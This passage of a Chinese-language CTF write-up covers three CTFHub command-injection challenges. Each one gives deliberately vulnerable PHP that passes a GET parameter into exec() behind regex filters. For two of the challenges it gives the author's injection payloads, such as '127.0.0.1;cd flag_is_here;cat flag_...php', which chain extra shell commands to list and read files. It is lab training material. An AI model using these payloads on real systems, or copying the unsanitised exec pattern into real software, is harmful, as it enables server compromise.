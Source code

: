 ## 0x09 过滤目录分割符

题目：这次过滤了目录分割符 / ，你能读到 flag 目录下的 flag 文件吗

<pre class="wp-block-code"><code>&lt;code>&lt;?php&lt;br>&lt;br>$res&nbsp;=&nbsp;FALSE;&lt;br>&lt;br>if&nbsp;(isset($_GET&#91;'ip'])&nbsp;&&&nbsp;$_GET&#91;'ip'])&nbsp;{&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;$ip&nbsp;=&nbsp;$_GET&#91;'ip'];&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;$m&nbsp;=&nbsp;&#91;];&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;(!preg_match_all("/\//",&nbsp;$ip,&nbsp;$m))&nbsp;{&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$cmd&nbsp;=&nbsp;"ping&nbsp;-c&nbsp;4&nbsp;{$ip}";&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exec($cmd,&nbsp;$res);&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;}&nbsp;else&nbsp;{&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$res&nbsp;=&nbsp;$m;&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;}&lt;br>}&lt;br>?&gt;</code>&lt;/code></pre>

首先输入`127.0.0.1|ls`，发现可疑文件夹<figure class="wp-block-image size-large">

<img loading="lazy" width="230" height="113" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/07/图片-22.png" alt="" class="wp-image-1639" /> </figure> 

再输入`127.0.0.1|ls flag_is_here`<figure class="wp-block-image size-large">

<img loading="lazy" width="330" height="90" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/07/图片-23.png" alt="" class="wp-image-1640" /> </figure> 

这道题开始时想复杂了，在研究怎么替换\，陷入了惯性思维，实际上切换到相应的目录即可，输入`127.0.0.1;cd flag_is_here;cat flag_8988745131535.php`

## 0x0A 过滤运算符

题目：过滤了几个运算符, 要怎么绕过呢

<pre class="wp-block-code"><code>&lt;code>&lt;?php&lt;br>&lt;br>$res&nbsp;=&nbsp;FALSE;&lt;br>&lt;br>if&nbsp;(isset($_GET&#91;'ip'])&nbsp;&&&nbsp;$_GET&#91;'ip'])&nbsp;{&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;$ip&nbsp;=&nbsp;$_GET&#91;'ip'];&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;$m&nbsp;=&nbsp;&#91;];&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;(!preg_match_all("/(\||\&)/",&nbsp;$ip,&nbsp;$m))&nbsp;{&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$cmd&nbsp;=&nbsp;"ping&nbsp;-c&nbsp;4&nbsp;{$ip}";&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exec($cmd,&nbsp;$res);&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;}&nbsp;else&nbsp;{&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$res&nbsp;=&nbsp;$m;&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;}&lt;br>}&lt;br>?&gt;</code>&lt;/code></pre>

输入`127.0.0.1;ls`，发现可疑文件<figure class="wp-block-image size-large">

<img loading="lazy" width="547" height="155" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/07/图片-24.png" alt="" class="wp-image-1641" /> </figure> 

构造`127.0.0.1;cat flag_24490310699067.php`，得到flag

## 0x0B 综合过滤练习

题目：同时过滤了前面几个小节的内容, 如何打出漂亮的组合拳呢?

<pre class="wp-block-code"><code>&lt;code>&lt;?php&lt;br>&lt;br>$res&nbsp;=&nbsp;FALSE;&lt;br>&lt;br>if&nbsp;(isset($_GET&#91;'ip'])&nbsp;&&&nbsp;$_GET&#91;'ip'])&nbsp;{&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;$ip&nbsp;=&nbsp;$_GET&#91;'ip'];&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;$m&nbsp;=&nbsp;&#91;];&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;(!preg_match_all("/(\||&|;|&nbsp;|\/|cat|flag|ctfhub)/",&nbsp;$ip,&nbsp;$m))&nbsp;{&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$cmd&nbsp;=&nbsp;"ping&nbsp;-c&nbsp;4&nbsp;{$ip}";&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exec($cmd,&nbsp;$res);&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;}&nbsp;else&nbsp;{&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$res&nbsp;=&nbsp;$m;&lt;br>&nbsp;&nbsp;&nbsp;&nbsp;}&lt;br>}&lt;br>?&gt;</code>&lt;/code></pre>
